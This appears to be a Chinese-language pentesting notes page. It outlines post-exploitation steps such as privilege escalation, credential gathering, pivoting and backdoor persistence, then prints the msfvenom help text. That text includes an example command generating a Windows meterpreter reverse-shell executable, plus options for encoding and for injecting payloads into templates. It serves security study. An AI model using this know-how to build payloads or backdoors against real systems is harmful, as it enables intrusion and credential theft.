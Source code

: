 ## 后渗透阶段

* 权限提升：权限提升的几种方式
* 信息收集：服务器信息、Hash、防火墙杀毒软件、账号密码
* 内网渗透：端口转发、代理跳板
* 后门植入：永久后门维持权限

## msfvenom使用

```
root@localhost:~# msfvenom 
Error: No options
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message

```
